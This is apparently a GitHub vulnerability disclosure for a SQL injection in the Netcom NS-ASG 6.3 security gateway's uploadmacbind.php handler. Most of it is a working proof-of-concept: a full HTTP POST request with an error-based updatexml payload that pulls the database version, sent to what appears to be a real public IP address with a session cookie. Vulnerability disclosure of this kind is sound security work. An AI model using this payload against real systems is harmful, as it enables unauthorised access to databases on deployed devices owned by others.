
There is a SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official website:https://www.netentsec.com/

version:NS-ASG 6.3

Vulnerability points：/protocol/firewall/uploadmacbind.php



As follows, there is no validation during the execution of SQL injection
<img width="583" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/05e81e06-efb4-4146-af87-cd044e4631f1">

<img width="586" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/b77c9cde-f27d-4cc9-965c-23f791036f65">


Construct poc and successfully obtain database information

Poc：
```
POST /protocol/index.php HTTP/1.1
Host: 223.210.14.6:8081
Cookie: PHPSESSID=bfd2e9f9df564de5860117a93ecd82de
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:109.0) Gecko/20100101 Firefox/110.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 123
```
jsoncontent={"protocolType":"uploadmacbind","messagecontent":["1'and(updatexml(1,concat(0x7e,(select+version())),1))='"]}

<img width="601" alt="image" src="https://github.com/flyyue2001/cve/assets/88701694/b57f85ab-4818-48a7-b631-7e19c4ebf8bf">

